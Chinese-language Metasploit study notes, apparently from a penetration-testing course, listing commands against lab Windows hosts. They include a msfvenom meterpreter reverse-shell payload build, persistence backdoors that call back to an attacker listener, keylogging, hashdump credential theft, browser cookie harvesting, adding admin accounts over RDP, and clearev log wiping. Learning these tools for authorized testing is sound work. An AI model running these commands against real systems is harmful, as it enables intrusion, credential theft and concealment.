 • 使用Metasploit的具体思路： 
1. 搜索攻击模块；使用命令：Search + 漏洞信息或编号
2. 使用某个模块；使用命令：use 
3. 查看配置选项；使用命令：show options
4. 设置选项值；使用命令：set 
5. 开始攻击；使用命令：run/exploit

msfconsole
图形界面启动: 输入：armitage，若提示不存在 请输入：apt-get install armitage 安装后需要使用：msfdb init 然后输入armitage

重要模块介绍: 
exploits 攻击模块 实施精准打击 
auxiliary 漏洞辅助模块，多用于扫描,嗅探,指纹识别等功能 
payloads 漏洞载荷模块，通常作用是为渗透测试者打开在目标系统上的控 制会话连接 
encoders 编码器模块，对payloads进行编码 
nops 空指令模块，最典型的空指令就是空操作 
evasion 创建反杀毒软件的木马

1.show exploits 显示可用的渗透攻击模块。
2.search 用来搜寻一些渗透攻击模块，可以进行模糊匹配。 
3.use 使用某个渗透攻击模块，可以通过use命令来使用show 或 search出来的渗 透模块。 
4.show payloads 显示当前模块可用的攻击载荷 
5.show options 显示参数当选择渗透模块后，使用show options 会显示该模块 所需设置的参数。 
6.set 命令是用来设置某些选项的，比如使用set 命令设置，攻击模块的options参 数；设置攻击载荷payloads时，也是用set命令。 
7.exploit/run命令，设置完所有参数时，使用exploit命令，开始进行攻击。

msfdb init/reinit/start/stop/delete/run

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.3.168(kali- -ip) LPORT=443(kali接口shell的端口) -f exe -o met.exe
![19fc409770e3d3e2efd2201c61e66dc8.png](../_resources/19fc409770e3d3e2efd2201c61e66dc8.png)

Meterpreter常用命令
background命令 。返回，把meterpreter后台挂起
sessions 命令可以查看已经成功获取的会话
sessions -i 连接到指定序号的meterpreter会话
shell命令 。获取目标主机的远程命令行shell
cat命令。查看目标主机上的文档内容
getwd命令。获取系统工作的当前目录
upload命令 。上传文件到目标主机
download命令。把目标主机上的文件下载到我们的攻击主机上
edit命令。调用vi编辑器，对目标主机上的文件修改
search命令。在目标主机文件系统上查找搜索文件
ipconfig命令。查看目标主机上的网络参数
portfwd命令。端口转发
portfwd add -l 1122 -p 3389 -r 192.168.111.149 将192.168.111.149的远程登录3389端口映射到本地
route命令。显示目标主机上的主机路由表
getuid 查看meterpreter注入到目标主机的进程所属用户
sysinfo 。查看目标主机系统信息
ps命令。查看目标主机上运行的进程信息，结合migrate使用
migrate。将meterpreter会话移植到另一个进程
execute命令。在目标主机上运行某个程序 -H 后台 -f 程序  -i shell
-d 在目标主机执行时显示的进程名称（用以伪装） -m 直接从内存中执行 -f 使用文件(程序) -a 使用路径 参数: <地址> -o 保存所有的输出到一个文件 参数:<文件名>
getpid 获取meterpreter会话在目标主机上注入进程的进程号
shutdown命令 关闭目标主机

**后渗透模块**
![fe3608b9946e65ab5775df379a26b77c.png](../_resources/fe3608b9946e65ab5775df379a26b77c.png)

调用post/windows/gather/checkvm后渗透模块，确定目标主机是否是一台虚拟机
persistence后渗透模块向目标主机植入后门程序 命令：run persistence -X -i 5 -p 攻击者监听端口 -r 攻击者监听的服务器地址 -X 在目标主机上开机自启动 -i 不断尝试反向连接的时间间隔
![1ce5f74e04c896061cf83d5fe59df190.png](../_resources/1ce5f74e04c896061cf83d5fe59df190.png)

执行过程： 创建攻击载荷->攻击载荷植入到目标主机c:\windows\temp目录下，是一个.vbs的脚本->写 目标主机注册表键值实现开机自动运行。 下图，在攻击主机上监听4444端口，等待反弹会话成功

![69309f121c57b85d269981a6a3bb3ee6.png](../_resources/69309f121c57b85d269981a6a3bb3ee6.png)
如果没有反弹成功,重新执行一遍:run persistence -X -i 5 -p 攻击者监听端口 -r 攻击者监 听的服务器地址 就能得到会话:
![c52993d3f1e82b18ad5bda94739ad31b.png](../_resources/c52993d3f1e82b18ad5bda94739ad31b.png)

调用getgui后渗透攻击模块 作用：开启目标主机远程桌面，并可添加管理员组账号 命令：run getgui -e 开启目标主机远程桌面
开启目标主机的远程桌面服务后，可以添加账号以便利用 命令： run getgui -u username -p password

执行成功，可以使用kali的rdesktop命令使用远程桌面连接目标主机 rdesktop -u kali -p kali 192.168.111.146:3389

提权命令getsystem 使用getsystem提升当前进城执行账户为system用户，拿到系统最高权限

键盘记录器功能 命令：run post/windows/capture/keylog_recorder

系统账号密码获取 命令：run post/windows/gather/hashdump 在获得system权限的情况下，使用hashdump命令可以到处目标主机的SAM文件，获取目标 主机的账号密码hash信息，剩下的可以用爆破软件算出明文密码

调用post/windows/gather/enum_applications模块获取目标主机上的软件安装信息 命令：run post/windows/gather/enum_applications

调用post/windows/gather/dumplinks获取目标主机上最近访问过的文档、链接信息 命令：run post/windows/gather/dumplinks

调用post/windows/gather/enum_ie后渗透模块，读取目标主机IE浏览器cookies等缓 存信息，嗅探目标主机登录过的各类账号密码 命令：run post/windows/gather/enum_ie

clearev命令
rdesktop -u username -p password 受害机ip